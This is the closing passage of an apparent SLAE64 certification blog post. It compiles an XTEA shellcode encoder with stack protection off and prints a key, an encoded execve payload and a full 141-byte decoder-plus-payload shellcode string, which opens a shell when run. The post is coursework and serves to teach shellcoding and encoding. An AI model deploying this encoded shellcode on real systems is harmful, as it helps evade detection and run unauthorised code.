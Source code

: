 
After compiling it, we can test it with the execve shellcode :

```plaintext
skrox@kali:~$ g++ -ggdb -m64 -fno-stack-protector -z execstack -o xtea-encoder xtea-encoder.cpp 
skrox@kali:~$ ./xtea-encoder 
Key size : 16
\x9f\x0e\xcc\x4a\xdd\xd2\xc9\x71\x20\x5e\x23\x0f\xae\x90\x99\x59

Encoded payload size : 24
\x5f\x75\xac\x71\x83\xd2\x38\xbe\xd6\xf5\x6e\x68\xdb\xc0\xb6\xb4\xfb\xd8\xf7\x80\xc4\x31\x7c\x92

XTEA Decoder stub + encoded payload + key size: 141
\x48\x8d\x35\xf9\xff\xff\xff\x48\x83\xc6\x65\x4c\x8d\x5e\x18\x6a\x03\x59\x51\x41\xba\x40\x6e\xde\x8d\x56\xad\x93\xad\x93\x6a\x40\x59\x51\xb1\x03\x50\x50\x89\xc2\xc1\xe0\x04\xc1\xea\x05\x31\xd0\x5a\x01\xc2\x41\x52\x58\xff\xc9\x74\x03\xc1\xe8\x0b\x83\xe0\x03\x41\x8b\x04\x83\x44\x01\xd0\x31\xd0\x29\xc3\x58\xff\xc9\x78\x0a\x41\x81\xea\xb9\x79\x37\x9e\x93\xeb\xca\x59\x93\xe0\xc3\x5f\xab\x93\xab\x59\xe0\xad\x5f\x75\xac\x71\x83\xd2\x38\xbe\xd6\xf5\x6e\x68\xdb\xc0\xb6\xb4\xfb\xd8\xf7\x80\xc4\x31\x7c\x92\x9f\x0e\xcc\x4a\xdd\xd2\xc9\x71\x20\x5e\x23\x0f\xae\x90\x99\x59

$ id
uid=1000(skrox) gid=1000(skrox) groups=1000(skrox)
```

And this is the end of this assignement and of my SLAE64 posts,

Thank you for reading !


***This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)  
Student ID: PA-14186***
